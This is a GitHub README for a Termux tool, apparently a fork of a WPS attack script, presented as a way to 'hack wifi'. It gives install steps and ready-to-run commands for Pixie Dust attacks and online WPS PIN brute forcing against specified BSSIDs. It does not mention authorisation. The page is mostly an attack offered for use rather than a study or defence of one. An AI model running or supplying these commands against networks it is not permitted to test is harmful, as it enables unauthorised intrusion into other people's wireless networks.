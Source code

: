 # wps
Hack wifi using termux (rooted)

## <a href = "https://t.me/cybersh_official/127" > Tutorial</a>

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python termux-api wpa-supplicant pixiewps iw -y
git clone https://github.com/Gtajisan/wps
pip install requests
cd wps
chmod +x wps.py
```
### Single cmd Setup
```
https://github.com/Gtajisan/wps
```
#### Help : 
```
sudo python wps.py --help
```
#### Example : 
```
sudo python wps.py -i wlan0 -K
```

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
```
sudo python wps.py -i wlan0 -K
```
- Start Pixie Dust attack on a specified BSSID:
```
sudo python wps.py -i wlan0 -b 00:91:4C:C3:AC:28 -K
```
- Launch online WPS bruteforce with the specified first half of the PIN:
```
 sudo python wps.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234
```
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
#### Modify History : 
rofl0r => Biri_B@B@ => Mohammad_Alamin (Toxinum) => SH TASRIF (CYBER SH)
<br>
<h3>Visitors :</h3>
<br>
<img src="https://profile-counter.glitch.me/ShTasrif/count.svg" alt="Visitors">

<div align="center">

<h3>━━━━ Connect with me ━━━━</h3>

<a href="https://fb.com/FRHAN MUH TASIM" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="TOXIC-VIRUS" height="30" width="40" /></a>
<a href="https://twitter.com/JISAN GTA" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/twitter.svg" alt="cybershbd" height="30" width="40" /></a>
<a href="https://fb.com/FRHAN MUH TASIM" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/facebook.svg" alt="Mohammad Alamin" height="30" width="40" /></a>
<a href="https://instagram.com/cybershbd" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/instagram.svg" alt="akxvau" height="30" width="40" /></a>

</div>
